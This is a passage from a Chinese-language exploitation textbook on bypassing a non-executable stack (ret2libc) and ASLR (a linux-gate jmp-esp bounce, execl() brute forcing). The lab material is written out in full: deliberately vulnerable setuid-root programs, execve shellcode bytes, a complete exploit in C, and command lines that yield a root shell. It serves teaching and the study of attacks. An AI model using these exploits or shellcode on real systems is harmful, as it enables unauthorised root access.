0xbffff9ea:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff9fa:     0x90909090      0x90909090      0x90909090      0x31909090
0xbffffa0a:     0x31db31c0      0xa4b099c9      0x0b6a80cd      0x2f685158
(gdb)
```

现在，执行指针（EIP）可以流过 NOP 桥进入构建的 shellcode。

可打印 shellcode 是一种可以打开一些大门的技术。它以及我们讨论的所有其他技术只是构建块，可以以无数种不同的组合方式使用。它们的应用需要你的一些独创性。要聪明，打败他们自己的游戏。

# 增强型防护措施

本章中展示的利用技术已经存在很长时间了。程序员想出一些聪明的保护方法只是时间问题。一个利用可以概括为三个步骤：首先，某种形式的内存损坏；然后，控制流的改变；最后，执行 shellcode。

# 不可执行堆栈

大多数应用程序不需要在堆栈上执行任何操作，因此针对缓冲区溢出攻击的一种明显防御措施是使堆栈不可执行。当这样做时，堆栈上插入的任何 shellcode 基本上都是无用的。这种防御措施将阻止大多数现有的攻击，并且越来越受欢迎。OpenBSD 的最新版本默认具有不可执行的堆栈，而 Linux 通过 PaX 内核补丁也提供了不可执行的堆栈。

## ret2libc

当然，存在一种绕过这种保护措施的技术。这种技术被称为“返回到 libc”。libc 是一个标准的 C 库，包含各种基本函数，如`printf()`和`exit()`。这些函数是共享的，所以任何使用`printf()`函数的程序都会将执行引导到 libc 中的适当位置。一个利用可以做到完全相同的事情，并将程序的执行引导到 libc 中的某个函数。这种利用的功能受限于 libc 中的函数，与任意 shellcode 相比，这是一个重大的限制。然而，堆栈上从未执行过任何操作。

## 返回到 system()

返回到`system()`函数是返回到 libc 中最简单的函数之一。如您所记得，这个函数接受一个参数，并使用`/bin/sh`执行该参数。这个函数只需要一个参数，这使得它成为一个有用的目标。在这个例子中，将使用一个简单的脆弱程序。

### vuln.c

```
int main(int argc, char *argv[])
{
        char buffer[5];
        strcpy(buffer, argv[1]);
        return 0;
}
```

当然，这个程序在真正变得脆弱之前必须编译并设置 setuid root 权限。

```
reader@hacking:~/booksrc $ gcc -o vuln vuln.c
reader@hacking:~/booksrc $ sudo chown root ./vuln
reader@hacking:~/booksrc $ sudo chmod u+s ./vuln
reader@hacking:~/booksrc $ ls -l ./vuln
-rwsr-xr-x 1 root reader 6600 2007-09-30 22:43 ./vuln

reader@hacking:~/booksrc $
```

通用思路是通过返回到 libc 函数`system()`，强制脆弱程序产生一个 shell，而不在堆栈上执行任何操作。如果这个函数提供了`/bin/sh`作为参数，这将产生一个 shell。

首先，必须确定 libc 中`system()`函数的位置。这会因系统而异，但一旦知道了位置，它将保持不变，直到 libc 重新编译。找到 libc 函数位置的最简单方法之一是创建一个简单的虚拟程序并对其进行调试，如下所示：

```
reader@hacking:~/booksrc $ cat > dummy.c
int main()
{ system(); }
reader@hacking:~/booksrc $ gcc -o dummy dummy.c
reader@hacking:~/booksrc $ gdb -q ./dummy
Using host libthread_db library "/lib/tls/i686/cmov/libthread_db.so.1".
(gdb) break main
Breakpoint 1 at 0x804837a
(gdb) run
Starting program: /home/matrix/booksrc/dummy

Breakpoint 1, 0x0804837a in main ()
(gdb) print system
$1 = {<text variable, no debug info>} 0xb7ed0d80 <system>
(gdb) quit
```

在这里，创建了一个使用`system()`函数的虚拟程序。编译后，在调试器中打开二进制文件并设置一个断点在开始处。执行程序，然后显示`system()`函数的位置。在这种情况下，`system()`函数位于`0xb7ed0d80`。

拥有这些知识后，我们可以将程序执行引导到 libc 的 `system()` 函数。然而，这里的目的是使易受攻击的程序执行 `system("/bin/sh")` 以提供 shell，因此必须提供一个参数。当返回到 libc 时，返回地址和函数参数将从堆栈中读取，其格式应该是熟悉的：返回地址后跟参数。在堆栈上，返回到 libc 的调用应该看起来像这样：


图 0x600-2。

在期望的 libc 函数地址之后，是执行完 libc 调用后应返回的地址。之后，所有函数参数按顺序排列。

在这种情况下，在 libc 调用之后执行流程返回的位置并不重要，因为它将打开一个交互式 shell。因此，这四个字节可以是 `FAKE` 的占位符值。只有一个参数，它应该是指向字符串 `/bin/sh` 的指针。此字符串可以存储在内存中的任何位置；环境变量是一个很好的候选者。在下面的输出中，字符串前面加了几空格。这将类似于 NOP 滑梯，为我们提供一些操作空间，因为 `system(" /bin/sh")` 与 `system(" /bin/sh")` 相同。

```
reader@hacking:~/booksrc $ export BINSH="         /bin/sh"
reader@hacking:~/booksrc $ ./getenvaddr BINSH ./vuln
BINSH will be at 0xbffffe5b
reader@hacking:~/booksrc $
```

因此，`system()` 地址是 `0xb7ed0d80`，当程序执行时，`/bin/sh` 字符串的地址将是 `0xbffffe5b`。这意味着堆栈上的返回地址应该被一系列地址覆盖，首先是 `0xb7ecfd80`，然后是 `FAKE`（因为 `system()` 调用之后执行流程的走向并不重要），最后是 `0xbffffe5b`。

快速二分搜索显示，返回地址很可能被程序输入的第八个单词覆盖，因此在漏洞利用中使用了七个字节的哑数据来填充空间。

```
reader@hacking:~/booksrc $ ./vuln $(perl -e 'print "ABCD"x5')
reader@hacking:~/booksrc $ ./vuln $(perl -e 'print "ABCD"x10')
Segmentation fault
reader@hacking:~/booksrc $ ./vuln $(perl -e 'print "ABCD"x8')
Segmentation fault
reader@hacking:~/booksrc $ ./vuln $(perl -e 'print "ABCD"x7')
Illegal instruction
reader@hacking:~/booksrc $ ./vuln $(perl -e 'print "ABCD"x7 . "\x80\x0d\xed\xb7FAKE\x5b
\xfe\
xff\xbf"')
sh-3.2# whoami
root
sh-3.2#
```

如果需要，可以通过创建链式 libc 调用来扩展漏洞利用。示例中使用的 `FAKE` 的返回地址可以更改，以引导程序执行。可以执行额外的 libc 调用，或者将执行流程引导到程序现有指令中的其他有用部分。

# 随机化堆栈空间

另一种防护对策尝试了一种稍微不同的方法。它不是防止在堆栈上执行，而是随机化堆栈内存布局。当内存布局被随机化时，攻击者将无法将执行流程返回到等待的 shellcode，因为他不知道它的位置。

自 Linux 内核 2.6.12 版本以来，此对策默认启用，但本书的 LiveCD 已配置为关闭。要再次启用此保护，请按照以下所示将 `1` 输出到 /proc 文件系统。

```
reader@hacking:~/booksrc $ sudo su -
root@hacking:~ # echo 1 > /proc/sys/kernel/randomize_va_space
root@hacking:~ # exit
logout
reader@hacking:~/booksrc $ gcc exploit_notesearch.c
reader@hacking:~/booksrc $ ./a.out
[DEBUG] found a 34 byte note for user id 999
[DEBUG] found a 41 byte note for user id 999
-------[ end of note data ]-------
reader@hacking:~/booksrc $
```

启用此对策后，notesearch 漏洞利用不再有效，因为堆栈布局已被随机化。每次程序启动时，堆栈从随机位置开始。以下示例演示了这一点。

## 随机化栈空间

### aslr_demo.c

```
#include <stdio.h>

int main(int argc, char *argv[]) {
   char buffer[50];

   printf("buffer is at %p\n", &buffer);

   if(argc > 1)
      strcpy(buffer, argv[1]);

   return 1;
}
```

这个程序中有一个明显的缓冲区溢出漏洞。然而，当开启 ASLR 时，利用并不那么容易。

```
reader@hacking:~/booksrc $ gcc -g -o aslr_demo aslr_demo.c
reader@hacking:~/booksrc $ ./aslr_demo
buffer is at 0xbffbbf90
reader@hacking:~/booksrc $ ./aslr_demo
buffer is at 0xbfe4de20
reader@hacking:~/booksrc $ ./aslr_demo
buffer is at 0xbfc7ac50
reader@hacking:~/booksrc $ ./aslr_demo $(perl -e 'print "ABCD"x20')
buffer is at 0xbf9a4920
Segmentation fault
reader@hacking:~/booksrc $
```

注意缓冲区在栈上的位置在每次运行时都会改变。我们仍然可以注入 shellcode 并损坏内存以覆盖返回地址，但我们不知道 shellcode 在内存中的位置。随机化改变了栈上所有内容的地址，包括环境变量。

```
reader@hacking:~/booksrc $ export SHELLCODE=$(cat shellcode.bin)
reader@hacking:~/booksrc $ ./getenvaddr SHELLCODE ./aslr_demo
SHELLCODE will be at 0xbfd919c3
reader@hacking:~/booksrc $ ./getenvaddr SHELLCODE ./aslr_demo
SHELLCODE will be at 0xbfe499c3
reader@hacking:~/booksrc $ ./getenvaddr SHELLCODE ./aslr_demo
SHELLCODE will be at 0xbfcae9c3
reader@hacking:~/booksrc $
```

这种保护措施可以非常有效地阻止普通攻击者的攻击，但并不总是足以阻止一个有决心的黑客。你能想到一种方法在这些条件下成功利用这个程序吗？

## 使用 BASH 和 GDB 进行调查

由于 ASLR 并不能阻止内存损坏，我们仍然可以使用一个暴力破解的 BASH 脚本来找出从缓冲区开始到返回地址的偏移量。当程序退出时，主函数返回的值是退出状态。这个状态存储在 BASH 变量$?中，可以用来检测程序是否崩溃。

```
reader@hacking:~/booksrc $ ./aslr_demo test
buffer is at 0xbfb80320
reader@hacking:~/booksrc $ echo $?
1
reader@hacking:~/booksrc $ ./aslr_demo $(perl -e 'print "AAAA"x50')
buffer is at 0xbfbe2ac0
Segmentation fault
reader@hacking:~/booksrc $ echo $?
139
reader@hacking:~/booksrc $
```

使用 BASH 的`if`语句逻辑，当脚本崩溃时，我们可以停止我们的暴力破解脚本。`if`语句块包含在关键字`then`和`fi`之间；`if`语句中的空白是必需的。`break`语句告诉脚本跳出`for`循环。

```
reader@hacking:~/booksrc $ for i in $(seq 1 50)
> do
> echo "Trying offset of $i words"
> ./aslr_demo $(perl -e "print 'AAAA'x$i")
> if [ $? != 1 ]
> then
> echo "==>  Correct offset to return address is $i words"
> break
> fi
> done
Trying offset of 1 words
buffer is at 0xbfc093b0
Trying offset of 2 words
buffer is at 0xbfd01ca0
Trying offset of 3 words
buffer is at 0xbfe45de0
Trying offset of 4 words
buffer is at 0xbfdcd560
Trying offset of 5 words
buffer is at 0xbfbf5380
Trying offset of 6 words
buffer is at 0xbffce760
Trying offset of 7 words
buffer is at 0xbfaf7a80
Trying offset of 8 words
buffer is at 0xbfa4e9d0
Trying offset of 9 words
buffer is at 0xbfacca50
Trying offset of 10 words
buffer is at 0xbfd08c80
Trying offset of 11 words
buffer is at 0xbff24ea0
Trying offset of 12 words
buffer is at 0xbfaf9a70
Trying offset of 13 words
buffer is at 0xbfe0fd80
Trying offset of 14 words
buffer is at 0xbfe03d70
Trying offset of 15 words
buffer is at 0xbfc2fb90
Trying offset of 16 words
buffer is at 0xbff32a40
Trying offset of 17 words
buffer is at 0xbf9da940
Trying offset of 18 words
buffer is at 0xbfd0cc70
Trying offset of 19 words
buffer is at 0xbf897ff0
Illegal instruction
==>  Correct offset to return address is 19 words
reader@hacking:~/booksrc $
```

知道正确的偏移量将使我们能够覆盖返回地址。然而，我们仍然不能执行 shellcode，因为它的位置是随机的。使用 GDB，让我们看看程序在即将从主函数返回时的状态。

```
reader@hacking:~/booksrc $ gdb -q ./aslr_demo
Using host libthread_db library "/lib/tls/i686/cmov/libthread_db.so.1".
(gdb) disass main
Dump of assembler code for function main:
0x080483b4 <main+0>:    push   ebp
0x080483b5 <main+1>:    mov    ebp,esp
0x080483b7 <main+3>:    sub    esp,0x58
0x080483ba <main+6>:    and    esp,0xfffffff0
0x080483bd <main+9>:    mov    eax,0x0
0x080483c2 <main+14>:   sub    esp,eax
0x080483c4 <main+16>:   lea    eax,[ebp-72]
0x080483c7 <main+19>:   mov    DWORD PTR [esp+4],eax
0x080483cb <main+23>:   mov    DWORD PTR [esp],0x80484d4
0x080483d2 <main+30>:   call   0x80482d4 <printf@plt>
0x080483d7 <main+35>:   cmp    DWORD PTR [ebp+8],0x1
0x080483db <main+39>:   jle    0x80483f4 <main+64>
0x080483dd <main+41>:   mov    eax,DWORD PTR [ebp+12]
0x080483e0 <main+44>:   add    eax,0x4
0x080483e3 <main+47>:   mov    eax,DWORD PTR [eax]
0x080483e5 <main+49>:   mov    DWORD PTR [esp+4],eax
0x080483e9 <main+53>:   lea    eax,[ebp-72]
0x080483ec <main+56>:   mov    DWORD PTR [esp],eax
0x080483ef <main+59>:   call   0x80482c4 <strcpy@plt>
0x080483f4 <main+64>:   mov    eax,0x1
0x080483f9 <main+69>:   leave
0x080483fa <main+70>:   ret
End of assembler dump.
(gdb) break *0x080483fa
Breakpoint 1 at 0x80483fa: file aslr_demo.c, line 12.
(gdb)
```

断点设置在`main`函数的最后一条指令。这条指令将 EIP 返回到栈上存储的返回地址。当利用覆盖返回地址时，这是原始程序最后控制的指令。让我们看看在代码的这个点，几个不同试验运行时的寄存器。

```
(gdb) run
Starting program: /home/reader/booksrc/aslr_demo
`buffer is at 0xbfa131a0`

Breakpoint 1, 0x080483fa in main (argc=134513588, argv=0x1) at aslr_demo.c:12
12      }
(gdb) info registers
eax            0x1      1
ecx            0x0      0
edx            0xb7f000b0       -1209007952
ebx            0xb7efeff4       -1209012236
`esp            0xbfa131`ec       0xbfa131ec
ebp            0xbfa13248       0xbfa13248
esi            0xb7f29ce0       -1208836896
edi            0x0      0
eip            0x80483fa        0x80483fa <main+70>
eflags         0x200246 [ PF ZF IF ID ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
(gdb) run
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/reader/booksrc/aslr_demo
`buffer is at 0xbfd8e5`20

Breakpoint 1, 0x080483fa in main (argc=134513588, argv=0x1) at aslr_demo.c:12
12      }
(gdb) i r esp
`esp            0xbfd8e5`6c       0xbfd8e56c
(gdb) run
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/reader/booksrc/aslr_demo
`buffer is at 0xbfaada`40

Breakpoint 1, 0x080483fa in main (argc=134513588, argv=0x1) at aslr_demo.c:12
12      }
(gdb) i r esp
`esp            0xbfaada`8c      0xbfaada8c
(gdb)
```

尽管在运行之间有随机化，但请注意 ESP 中的地址与缓冲区地址（以粗体显示）的相似性。这是有道理的，因为栈指针指向栈，而缓冲区在栈上。ESP 的值和缓冲区的地址由相同的随机值改变，因为它们是相对的。

GDB 的`stepi`命令通过单条指令向前执行程序。使用这个命令，我们可以检查`ret`指令执行后的 ESP 值。

```
(gdb) run
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/reader/booksrc/aslr_demo
buffer is at 0xbfd1ccb0

Breakpoint 1, 0x080483fa in main (argc=134513588, argv=0x1) at aslr_demo.c:12
12      }
(gdb) i r esp
esp            0xbfd1ccfc       0xbfd1ccfc
(gdb) stepi
0xb7e4debc in __libc_start_main () from /lib/tls/i686/cmov/libc.so.6
(gdb) i r esp
esp            0xbfd1cd00       0xbfd1cd00
(gdb) x/24x 0xbfd1ccb0
0xbfd1ccb0:     0x00000000      0x080495cc      0xbfd1ccc8      0x08048291
0xbfd1ccc0:     0xb7f3d729      0xb7f74ff4      0xbfd1ccf8      0x08048429
0xbfd1ccd0:     0xb7f74ff4      0xbfd1cd8c      0xbfd1ccf8      0xb7f74ff4
0xbfd1cce0:     0xb7f937b0      0x08048410      0x00000000      0xb7f74ff4
0xbfd1ccf0:     0xb7f9fce0      0x08048410      0xbfd1cd58      0xb7e4debc
`0xbfd1cd00:     0x00000001`      0xbfd1cd84      0xbfd1cd8c      0xb7fa0898
(gdb) p 0xbfd1cd00 - 0xbfd1ccb0
$1 = 80
(gdb) p 80/4
$2 = 20
(gdb)
```

单步执行显示`ret`指令将 ESP 的值增加 4。从 ESP 的值减去缓冲区的地址，我们发现 ESP 指向从缓冲区开始 80 字节（或 20 个单词）的栈内存。由于返回地址的偏移量是 19 个单词，这意味着在`main`的最终`ret`指令之后，ESP 指向返回地址之后直接找到的栈内存。如果有一种方法可以控制 EIP 指向 ESP 所指向的位置，这将是有用的。

## 利用 linux-gate 反弹

下面描述的技术从 2.6.18 开始的 Linux 内核版本不再适用。这项技术获得了一些流行度，当然，开发者们修补了这个问题。包含在 LiveCD 中的内核版本是 2.6.20，因此下面的输出来自名为 loki 的机器，该机器运行的是 2.6.17 版本的 Linux 内核。尽管这个特定的技术不适用于 LiveCD，但其背后的概念可以以其他有用的方式应用。

*从 linux-gate 跳转*指的是由内核暴露的共享对象，它看起来像是一个共享库。程序 ldd 显示了程序的共享库依赖关系。你注意到下面输出中的 linux-gate 库有什么有趣的地方吗？

```
matrix@loki /hacking $ $ uname -a
Linux hacking 2.6.17 #2 SMP Sun Apr 11 03:42:05 UTC 2007 i686 GNU/Linux
matrix@loki /hacking $ cat /proc/sys/kernel/randomize_va_space
1
matrix@loki /hacking $ ldd ./aslr_demo
        `linux-gate.so.1 =>  (0xffffe000)`
        libc.so.6 => /lib/libc.so.6 (0xb7eb2000)
        /lib/ld-linux.so.2 (0xb7fe5000)
matrix@loki /hacking $ ldd /bin/ls
        `linux-gate.so.1 =>  (0xffffe000)`
        librt.so.1 => /lib/librt.so.1 (0xb7f95000)
        libc.so.6 => /lib/libc.so.6 (0xb7e75000)
        libpthread.so.0 => /lib/libpthread.so.0 (0xb7e62000)
        /lib/ld-linux.so.2 (0xb7fb1000)
matrix@loki /hacking $ ldd /bin/ls
        `linux-gate.so.1 =>  (0xffffe000)`
        librt.so.1 => /lib/librt.so.1 (0xb7f50000)
        libc.so.6 => /lib/libc.so.6 (0xb7e30000)
        libpthread.so.0 => /lib/libpthread.so.0 (0xb7e1d000)
        /lib/ld-linux.so.2 (0xb7f6c000)
matrix@loki /hacking $
```

即使在不同的程序和启用 ASLR 的情况下，linux-gate.so.1 总是出现在相同的地址。这是一个由内核使用的虚拟动态共享对象，用于加速系统调用，这意味着它在每个进程中都是必需的。它直接从内核加载，并且不存在于磁盘上的任何地方。

重要的是，每个进程都有一个包含 linux-gate 指令的内存块，这些指令的位置总是相同的，即使在 ASLR 的情况下。我们将在这个内存空间中搜索特定的汇编指令，`jmp esp`。这个指令将使 EIP 跳转到 ESP 指向的位置。

首先，我们组装指令，看看它在机器代码中的样子。

```
matrix@loki /hacking $ cat > jmpesp.s
BITS 32
jmp esp
matrix@loki /hacking $ nasm jmpesp.s
matrix@loki /hacking $ hexdump -C jmpesp
00000000  ff e4                                             |..|
00000002
matrix@loki /hacking $
```

使用这些信息，可以编写一个简单的程序来在程序的自身内存中找到这个模式。

### find_jmpesp.c

```
int main()
{
  unsigned long linuxgate_start = 0xffffe000;
  char *ptr = (char *) linuxgate_start;

  int i;

  for(i=0; i < 4096; i++)
  {
    if(ptr[i] == '\xff' && ptr[i+1] == '\xe4')
      printf("found jmp esp at %p\n", ptr+i);
  }
}
```

当程序编译并运行时，它显示这个指令存在于`0xffffe777`。这可以通过 GDB 进一步验证：

```
matrix@loki /hacking $ ./find_jmpesp
found jmp esp at 0xffffe777
matrix@loki /hacking $ gdb -q ./aslr_demo
Using host libthread_db library "/lib/libthread_db.so.1".
(gdb) break main
Breakpoint 1 at 0x80483f0: file aslr_demo.c, line 7.
(gdb) run
Starting program: /hacking/aslr_demo

Breakpoint 1, main (argc=1, argv=0xbf869894) at aslr_demo.c:7
7               printf("buffer is at %p\n", &buffer);
(gdb) x/i 0xffffe777
0xffffe777:     jmp    esp
(gdb)
```

将所有这些放在一起，如果我们用地址`0xffffe777`覆盖返回地址，那么当主函数返回时，执行将跳转到 linux-gate。由于这是一个`jmp esp`指令，执行将立即从 linux-gate 跳回到 ESP 指向的地方。根据我们之前的调试，我们知道在主函数的末尾，ESP 指向返回地址之后的内存。所以如果在这里放置 shellcode，EIP 应该会直接跳入其中。

```
matrix@loki /hacking $ sudo chown root:root ./aslr_demo
matrix@loki /hacking $ sudo chmod u+s ./aslr_demo
matrix@loki /hacking $ ./aslr_demo $(perl -e 'print "\x77\xe7\xff\xff"x20')$(cat
 scode.bin)
buffer is at 0xbf8d9ae0
sh-3.1#
```

这种技术也可以用来利用 notesearch 程序，如下所示。

```
matrix@loki /hacking $ for i in `seq 1 50`; do ./notesearch $(perl -e "print 'AAAA'x$i");
 if [ 
$? == 139 ]; then echo "Try $i words"; break; fi; done
[DEBUG] found a 34 byte note for user id 1000
[DEBUG] found a 41 byte note for user id 1000
[DEBUG] found a 63 byte note for user id 1000
-------[ end of note data ]-------

*** OUTPUT TRIMMED ***

[DEBUG] found a 34 byte note for user id 1000
[DEBUG] found a 41 byte note for user id 1000
[DEBUG] found a 63 byte note for user id 1000
-------[ end of note data ]-------
Segmentation fault
Try 35 words
matrix@loki /hacking $ ./notesearch $(perl -e 'print "\x77\xe7\xff\xff"x35')$(cat
 scode.bin)
[DEBUG] found a 34 byte note for user id 1000
[DEBUG] found a 41 byte note for user id 1000
[DEBUG] found a 63 byte note for user id 1000
-------[ end of note data ]-------
Segmentation fault
matrix@loki /hacking $ ./notesearch $(perl -e 'print "\x77\xe7\xff\xff"x36')$(cat
 scode2.bin)
[DEBUG] found a 34 byte note for user id 1000
[DEBUG] found a 41 byte note for user id 1000
[DEBUG] found a 63 byte note for user id 1000
-------[ end of note data ]------- 
sh-3.1#
```

初始的 35 个单词的估计不准确，因为程序仍然在稍微小一点的利用缓冲区中崩溃。但它在正确的范围内，所以只需要手动调整（或更精确地计算偏移量）即可。

当然，从 linux-gate 跳转是一个巧妙的技巧，但它只适用于较旧的 Linux 内核。回到 LiveCD 上，运行 Linux 2.6.20，有用的指令不再在通常的地址空间中找到。

```
reader@hacking:~/booksrc $ uname -a
Linux hacking 2.6.20-15-generic #2 SMP Sun Apr 15 07:36:31 UTC 2007 i686 GNU/Linux
reader@hacking:~/booksrc $ gcc -o find_jmpesp find_jmpesp.c
reader@hacking:~/booksrc $ ./find_jmpesp
reader@hacking:~/booksrc $ gcc -g -o aslr_demo aslr_demo.c
reader@hacking:~/booksrc $ ./aslr_demo test
buffer is at 0xbfcf3480
reader@hacking:~/booksrc $ ./aslr_demo test
buffer is at 0xbfd39cd0
reader@hacking:~/booksrc $ export SHELLCODE=$(cat shellcode.bin)
reader@hacking:~/booksrc $ ./getenvaddr SHELLCODE ./aslr_demo
SHELLCODE will be at 0xbfc8d9c3
reader@hacking:~/booksrc $ ./getenvaddr SHELLCODE ./aslr_demo
SHELLCODE will be at 0xbfa0c9c3
reader@hacking:~/booksrc $
```

没有在可预测地址的`jmp esp`指令，就没有简单的方法从 linux-gate 跳转。你能想到绕过 ASLR 来在 LiveCD 上的 aslr_demo 进行利用的方法吗？

## 应用知识

这种情况正是使黑客技术成为一门艺术的原因。计算机安全的状态是一个不断变化的景观，每天都会发现和修补特定的漏洞。然而，如果你理解了本书中解释的核心黑客技术概念，你就可以以新的和创造性的方式应用它们来解决当天的难题。就像乐高积木一样，这些技术可以用数百万种不同的组合和配置来使用。就像任何艺术一样，你练习这些技术的次数越多，你对它们的理解就会越好。这种理解带来了猜测偏移量和通过地址范围识别内存段的知识。

在这种情况下，问题仍然是 ASLR。希望你现在有几个绕过的想法可以尝试。不要害怕使用调试器来检查实际发生的情况。可能存在几种绕过 ASLR 的方法，你可能会发明一种新技术。如果你找不到解决方案，不要担心——我将在下一节中解释一种方法。但在继续阅读之前，花点时间自己思考一下这个问题是值得的。

## 第一次尝试

事实上，我在 Linux 内核中的 linux-gate 修复之前就写了这一章，所以我不得不拼凑一个 ASLR 绕过方案。我的第一个想法是利用`execl()`函数族。我们一直在使用`execve()`函数在我们的 shellcode 中启动 shell，如果你仔细观察（或者只是阅读手册页面），你会注意到`execve()`函数会替换当前运行的进程为新进程映像。

```
EXEC(3)                Linux Programmer's Manual

NAME
       execl, execlp, execle, execv, execvp - execute a file

SYNOPSIS
       #include <unistd.h>

       extern char **environ;

       int execl(const char *path, const char *arg, ...);
       int execlp(const char *file, const char *arg, ...);
       int execle(const char *path, const char *arg,
                  ..., char * const envp[]);
       int execv(const char *path, char *const argv[]);
       int execvp(const char *file, char *const argv[]);

DESCRIPTION
       The  exec()  family  of  functions  replaces the current process
       image with a new process image.  The functions described in this
       manual page are front-ends for the function execve(2).  (See the
       manual page for execve()  for  detailed  information  about  the
       replacement of the current process.)
```

如果内存布局仅在进程启动时随机化，这里可能存在一个弱点。让我们通过一段打印栈变量地址并使用`execl()`函数执行 aslr_demo 的代码来测试这个假设。

### aslr_execl.c

```
#include <stdio.h>
#include <unistd.h>

int main(int argc, char *argv[]) {
   int stack_var;

   // Print an address from the current stack frame.
   printf("stack_var is at %p\n", &stack_var);

   // Start aslr_demo to see how its stack is arranged.
   execl("./aslr_demo", "aslr_demo", NULL);
}
```

当这个程序编译并执行时，它将使用`execl()`执行 aslr_demo，它也会打印栈变量（缓冲区）的地址。这让我们可以比较内存布局。

```
reader@hacking:~/booksrc $ gcc -o aslr_demo aslr_demo.c
reader@hacking:~/booksrc $ gcc -o aslr_execl aslr_execl.c
reader@hacking:~/booksrc $ ./aslr_demo test
buffer is at 0xbf9f31c0
reader@hacking:~/booksrc $ ./aslr_demo test
buffer is at 0xbffaaf70
reader@hacking:~/booksrc $ ./aslr_execl
stack_var is at 0xbf832044
buffer is at 0xbf832000
reader@hacking:~/booksrc $ gdb -q --batch -ex "p 0xbf832044 - 0xbf832000"
$1 = 68
reader@hacking:~/booksrc $ ./aslr_execl
stack_var is at 0xbfa97844
buffer is at 0xbf82f800
reader@hacking:~/booksrc $ gdb -q --batch -ex "p 0xbfa97844 - 0xbf82f800"
$1 = 2523204
reader@hacking:~/booksrc $ ./aslr_execl
stack_var is at 0xbfbb0bc4
buffer is at 0xbff3e710
reader@hacking:~/booksrc $ gdb -q --batch -ex "p 0xbfbb0bc4 - 0xbff3e710"
$1 = 4291241140
reader@hacking:~/booksrc $ ./aslr_execl
stack_var is at 0xbf9a81b4
buffer is at 0xbf9a8180
reader@hacking:~/booksrc $ gdb -q --batch -ex "p 0xbf9a81b4 - 0xbf9a8180"
$1 = 52
reader@hacking:~/booksrc $
```

第一个结果看起来非常有希望，但进一步的尝试表明，当使用`execl()`执行新进程时，确实存在一定程度的不确定性。我确信这并不总是这样，但开源的进步是相当稳定的。这并不是什么大问题，因为我们有处理这种部分不确定性的方法。

## 玩概率游戏

至少使用`execl()`可以限制随机性，并给我们一个大致的地址范围。剩余的不确定性可以用 NOP 滑梯来处理。快速检查 aslr_demo 显示，溢出缓冲区需要 80 字节来覆盖栈上存储的返回地址。

```
reader@hacking:~/booksrc $ gdb -q ./aslr_demo
Using host libthread_db library "/lib/tls/i686/cmov/libthread_db.so.1".
(gdb) run $(perl -e 'print "AAAA"x19 . "BBBB"')
Starting program: /home/reader/booksrc/aslr_demo $(perl -e 'print "AAAA"x19 . "BBBB"')
buffer is at 0xbfc7d3b0

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
(gdb) p 20*4
$1 = 80
(gdb) quit
The program is running.  Exit anyway? (y or n) y
reader@hacking:~/booksrc $
```

由于我们可能需要一个相当大的 NOP 滑梯，在下面的攻击中，NOP 滑梯和 shellcode 将被放在返回地址覆盖之后。这允许我们注入所需的尽可能多的 NOP 滑梯。在这种情况下，大约一千字节应该足够了。

### aslr_execl_exploit.c

```
#include <stdio.h>
#include <unistd.h>
#include <string.h>

char shellcode[]=
"\x31\xc0\x31\xdb\x31\xc9\x99\xb0\xa4\xcd\x80\x6a\x0b\x58\x51\x68"
"\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x51\x89\xe2\x53\x89"
"\xe1\xcd\x80"; // Standard shellcode

int main(int argc, char *argv[]) {
   unsigned int i, ret, offset;
   char buffer[1000];

   printf("i is at %p\n", &i);

   if(argc > 1) // Set offset.
      offset = atoi(argv[1]);

   ret = (unsigned int) &i - offset + 200; // Set return address.
   printf("ret addr is %p\n", ret);

for(i=0; i < 90; i+=4) // Fill buffer with return address.
     *((unsigned int *)(buffer+i)) = ret;
  memset(buffer+84, 0x90, 900); // Build NOP sled.
  memcpy(buffer+900, shellcode, sizeof(shellcode));

  execl("./aslr_demo", "aslr_demo", buffer,  NULL);
}
```

这段代码应该对你来说是有意义的。值`200`被加到返回地址上，以跳过用于覆盖的前 90 个字节，因此执行会落在 NOP 滑梯的某个地方。

```
reader@hacking:~/booksrc $ sudo chown root ./aslr_demo
reader@hacking:~/booksrc $ sudo chmod u+s ./aslr_demo
reader@hacking:~/booksrc $ gcc aslr_execl_exploit.c
reader@hacking:~/booksrc $ ./a.out
i is at 0xbfa3f26c
ret addr is 0xb79f6de4
buffer is at 0xbfa3ee80
Segmentation fault
reader@hacking:~/booksrc $ gdb -q --batch -ex "p 0xbfa3f26c - 0xbfa3ee80"
$1 = 1004
reader@hacking:~/booksrc $ ./a.out 1004
i is at 0xbfe9b6cc
ret addr is 0xbfe9b3a8
buffer is at 0xbfe9b2e0
sh-3.2# exit
exit
reader@hacking:~/booksrc $ ./a.out 1004
i is at 0xbfb5a38c
ret addr is 0xbfb5a068
buffer is at 0xbfb20760
Segmentation fault
reader@hacking:~/booksrc $ gdb -q --batch -ex "p 0xbfb5a38c - 0xbfb20760"
$1 = 236588
reader@hacking:~/booksrc $ ./a.out 1004
i is at 0xbfce050c
ret addr is 0xbfce01e8
buffer is at 0xbfce0130
sh-3.2# whoami
root 
sh-3.2#
```

如你所见，偶尔随机化会导致利用失败，但只需成功一次即可。这利用了我们可以尝试利用任意多次的事实。当地址空间布局随机化（ASLR）正在运行时，相同的技巧也会在 notesearch 利用中起作用。尝试编写一个能够做到这一点的利用程序。

一旦理解了利用程序的基本概念，凭借一点创意，就可以产生无数的变化。由于程序规则是由其创造者定义的，因此利用一个看似安全的程序仅仅是战胜他们自己的游戏。新的巧妙方法，如堆栈保护器和入侵检测系统（IDSs），试图弥补这些问题，但这些解决方案也不是完美的。黑客的独创性往往能发现这些系统中的漏洞。只需想想他们没有考虑到的事情。
